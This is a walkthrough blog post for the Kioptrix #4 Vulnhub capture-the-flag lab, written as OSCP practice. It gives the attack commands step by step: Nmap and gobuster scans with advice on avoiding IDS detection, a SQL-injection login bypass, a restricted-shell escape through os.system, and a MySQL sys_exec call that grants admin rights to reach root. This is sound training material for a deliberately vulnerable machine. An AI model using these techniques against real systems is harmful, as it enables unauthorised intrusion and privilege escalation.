 ```yaml
---
title: "Kioptrix #4 Walkthrough"
author: alex
date: Fri 28 Jul 18:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-28-kioptrix-4-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.3**. Or Kioptrix #4. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthroughs: **[Kioptrix #1](/posts/kioptrix-1-walkthrough)** and **[Kioptrix #2](/posts/kioptrix-2-walkthrough)**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Searchsploit
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.40    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.40
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.40
Host is up (0.00049s latency).
Not shown: 39528 closed tcp ports (reset), 26003 filtered tcp ports (no-response)

PORT    STATE SERVICE     VERSION

22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)

80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open              Samba smbd 3.0.28a (workgroup: WORKGROUP)

MAC Address: 08:00:27:B4:0C:E8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 497.100 days (since Tue Feb  8 19:33:43 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=205 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h59m58s, deviation: 2h49m42s, median: 1h59m58s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2023-06-20T18:58:17-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX4<00>        Flags: <unique><active>
|   KIOPTRIX4<03>        Flags: <unique><active>
|   KIOPTRIX4<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|_  WORKGROUP<00>        Flags: <group><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Let's open the browser and search for http://192.168.1.40. We find a login page, let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.40 -t 10`. And the results show there's a directory named *john* and another named *robert*: `http://192.168.1.40/john/` & `http://192.168.1.40/robert/`.

![Directories](/kioptrix-gobuster.png)

- **Port 139/445:** Our lovely and insecure Samba ports. We are going to further enumerate Samba with Nmap: `sudo nmap --script smb-enum-users -v 192.168.1.40`.

![Samba Users](/kioptrix-smb-users.png)

Now we have some users to try to log in. Back to the login page, let's try some **SQLi**. Starting with *john* as username and the legendary `' OR '1'='1'` as the password.

![Member Page](/logged-in.png)

Yay, We have a password! Let's try to log in with SSH: 

```bash
sudo ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss -oPubkeyAcceptedAlgorithms=+ssh-rsa -c aes128-cbc john@192.168.1.40
```

And now we're in! As we can see. we don't have a full working shell, it just allows us to use a few commands and stay in `/home/john`, otherwise we would be kicked out. Now we should scape this limited shell. Thanks to the `echo` command we can log other commands into the system bypassing the restriction: 

```bash
echo os.system('/bin/bash')
```

Ok, now we have a full shell. First things first, let's check if we can run **sudo** and what is already running as **root**. Running `sudo -l` we make sure that we cannot run **sudo**. Now let's check the processes that are running as root: `ps -elf | grep 'root'`. Now we see that **MySQL** is running as **root**.

Let's head to `/var/www` and `cat` the `checklogin.php` to see if any credentials are hardcoded. And yes! Now we can access the database with the credentials with `root` as user and no password: `mysql -h localhost -u root -p`.

Now we can see what databases we have: `show databases;`. And as **MySQL** is running as root and we have root access to it, what we can do is to try to add *john* to the *admin* group: 

```sql
select sys_exec('usermod -a -G admin john')
```

To check if it worked, exit MySQL and run `sudo su`. When prompted for john's password use *MyNameIsJohn* and... voilà! We have **root** access!